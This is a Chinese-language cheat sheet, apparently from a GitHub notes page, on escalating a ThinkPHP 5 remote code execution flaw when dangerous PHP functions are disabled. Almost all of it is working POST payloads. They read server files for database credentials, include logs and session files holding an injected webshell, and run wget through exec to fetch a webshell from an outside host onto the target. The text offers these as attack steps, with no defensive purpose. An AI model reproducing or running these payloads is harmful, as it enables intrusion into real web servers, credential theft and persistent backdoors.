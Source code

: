 # Thinkphp bypass disable funtion

---

情况：tp5 rce可以执行phpinfo，但是其他可以getshell的函数不能使用

下面请求均为:

```
/?s=captcha
postdata:
```

- 方法1：文件读取数据库连接信息+phpmyadmin或者数据库外连，后续数据库getshell

  
  ```
  # 扫描路径下的文件并列出（通过phpinfo可以知道网站根目录的绝对路径）
  _method=__construct&filter[]=scandir&filter[]=var_dump&method=GET&get[]=路径
  # 读取文件内容
  _method=__construct&filter[]=highlight_file&method=GET&get[]=读取的文件路径
  ```
  
- 方法2：日志包含

  前提：日志泄露是否存在
  
  ```
  # 随便输入
  _method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=一句话

  # 包含日志执行phpinfo
  _method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../data/runtime/log/202110/17.log&c=phpinfo();
  ```
  
- 方法3：Session包含
  
  ```
  # 设置session存入session缓存中
  _method=__construct&filter[]=think\Session::set&method=get&get[]= 一句话&server[]=1

  # tp5的session文件均在/tmp/sess_sessionid  (sessionid=cookie里面的PHPSESSID)
  # phpinfo中session.save_path为session保存的路径，文件为：sess_sessionid
  _method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=/tmp/sess_ejc3iali7uv3deo9g6ha8pbtoi&c=phpinfo();
  ```
  
- 方法4：命令执行

  前提:目标是linux系统,如果是windows需要换命令
  
  ```
  # 公网搭建一句话的php
  s=wget http://xxxxxx/test.php&_method=__construct&method=get&filter[]=exec
  # 访问目标的/test.php
  ```
